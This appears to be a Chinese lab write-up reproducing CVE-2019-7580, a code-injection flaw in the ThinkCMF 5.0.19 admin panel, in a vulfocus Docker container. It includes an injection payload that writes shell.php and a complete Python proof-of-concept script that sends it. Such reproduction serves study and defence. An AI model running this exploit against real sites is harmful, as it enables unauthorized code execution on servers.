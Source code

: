 # CVE-2019-7580漏洞复现



## 1.漏洞简介

ThinkCMF 是一款支持[Swoole](https://so.csdn.net/so/search?q=Swoole&spm=1001.2101.3001.7020)的开源内容管理框架(CMF),基于ThinkPHP开发. thinkcmf 5.0.19 这个版本后台提供路由自定义，远程攻击者攻击者可通过向portal/admin_category/addpost.html页面发送‘别名’参数利用该漏洞注入任意代码。



## 2.环境介绍

拉取 vulfocus 现有镜像，并运行到 80 端口。

docker-compose.yml

```yml
version: '3'
services:
  thinkcmf:
    image: vulfocus/thinkcmf-cve_2019_7580
    ports:
      - 80:80
```



## 3.复现过程

启动环境。

![image-20230727214003016](img/image-20230727214003016.png)

使用账号密码：admin/123456 登陆成功。

![image-20230727214558454](img/image-20230727214558454.png)

登陆成功后，在门户管理->分类管理->添加分类处的分类别名处添加payload .

```
1'=>array(""),file_put_contents('shell.php','<?php phpinfo();?>'),'2
```

![image-20230727224332274](img/image-20230727224332274.png)

点击添加后会在根目录下生成 shell.php .

![image-20230727225233733](img/image-20230727225233733.png)

编写poc：

```python
import requests
import sys


def send_request(host, cookie):
    url = f"http://{host}/portal/admin_category/addpost.html"
    headers = {
        "Accept": "application/json, text/javascript, */*; q=0.01",
        "X-Requested-With": "XMLHttpRequest",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "Origin": f"http://{host}",
        "Referer": f"http://{host}/portal/admin_category/add.html",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "zh-CN,zh;q=0.9",
        "Cookie": cookie,
        "Connection": "close"
    }

    payload = {
        "parent_id": "0",
        "name": "1'=>array(''),file_put_contents('shell.php','<?php phpinfo();?>'),'2",
        "alias": "1'=>array(''),file_put_contents('shell.php','<?php phpinfo();?>'),'2",
        "description": "1'=>array(''),file_put_contents('shell.php','<?php phpinfo();?>'),'2",
        "more[thumbnail]": "",
        "seo_title": "",
        "seo_keywords": "",
        "seo_description": "",
        "list_tpl": "list",
        "one_tpl": "article"
    }

    response = requests.post(url, headers=headers, data=payload)
    shell = f"http://{host}/shell.php"
    if "添加成功" in response.text and response.status_code == 200:
        print(f"phpinfo()已写入shell.php，地址为{shell}")
    else:
        print("phpinfo()写入失败")


if __name__ == "__main__":
    if len(sys.argv) < 3:
        print("Usage: python poc.py host cookie")
    else:
        host = sys.argv[1]
        cookie = sys.argv[2]
        send_request(host, cookie)
```

脚本中需要host和cookie两个参数，下图可快速获取cookie，cookie中只需要图中三个参数。

![image-20230727235551350](img/image-20230727235551350.png)

执行脚本。

![image-20230728000106793](img/image-20230728000106793.png)

再次成功写入

![image-20230727234147078](img/image-20230727234147078.png)
